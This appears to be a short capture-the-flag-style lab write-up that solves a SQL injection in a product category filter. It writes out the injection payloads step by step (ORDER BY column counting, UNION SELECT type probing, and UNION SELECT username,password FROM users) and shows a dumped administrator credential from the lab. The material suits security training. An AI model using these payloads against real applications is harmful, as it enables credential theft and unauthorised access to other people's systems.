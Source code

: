 **SQL Injection: Product category filter**

*- Goal: Output the usernames and passwords in related table and login as `administrator` user*

*- Analyse:*

1. Determine # of the columnns that the vulnerable query is using
> ` ' order by 3--`: 
> appears Internal Server Error --> 2 columns
2. Determine data type of the columns
> ` ' UNION select 'a','a'--`: 
> no Error --> both columns are data type of string
3. Retrieve datas
> ` ' UNION SELECT username,password FROM users--`: 
> there are lots of accounts appearing, we find admin account here:
> administrator - hketiof1vp3megfdjskh

*`LAB SOLVED`*
![alt text](result.png)